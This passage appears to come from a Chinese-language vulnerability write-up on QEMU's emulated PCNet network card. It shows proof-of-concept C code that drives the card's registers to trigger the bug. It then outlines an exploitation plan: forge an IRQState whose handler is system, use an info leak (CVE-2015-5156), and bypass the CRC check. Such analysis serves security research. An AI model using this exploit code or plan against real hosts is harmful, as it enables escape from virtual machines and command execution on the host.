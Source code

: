 ```
    //pcnet_init and pcnet_start
    outw(0,PCNET_PORT + 0x12);
    outw(3,PCNET_PORT + 0x10);

    //set CSR_SPND
    outw(5, PCNET_PORT + 0x12);
    outw(0x1, PCNET_PORT + 0x10);

    //CSR_PROM
    outw(15, PCNET_PORT + 0x12);
    outw(0x8004, PCNET_PORT + 0x10);

    //CSR_CRST
    outw(41, PCNET_PORT + 0x12);
    outw(0x8000, PCNET_PORT + 0x10);

    //set crda = rmd_addr
    outw(28, PCNET_PORT + 0x12);
    outw(rmd_lo, PCNET_PORT + 0x10);
    outw(29, PCNET_PORT + 0x12);
    outw(rmd_hi, PCNET_PORT + 0x10);

    //clear CSR_SPND
    outw(5, PCNET_PORT + 0x12);
    outw(0, PCNET_PORT + 0x10);

    sleep(2);

    //call pcnet_transmit
    outw(0,PCNET_PORT + 0x12);
    outw(8,PCNET_PORT + 0x10);
}
```

poc执行完之后的效果如下：

![](poc.png)

## 漏洞利用

利用这一步需要逆向一下crc循环校验，自己这个校验没逆出来，不过漏洞利用的思路还是了解一些的，首先我们可以控制s->buffer中的内容，因为代码中有关于s->buffer赋值的函数，所以我们可以在buffer中伪造一个IRQState结构然后在这个结构中设置handler为system，然后opaque为想要执行的执行，伪造的信息可以利用CVE-2015-5156得到，然后我们通过给s->buffer打patch让他可以过了crc循环校验使得irq指向buffer中伪造的IRQState，这样在执行irq指向的函数的时候，就会执行system了

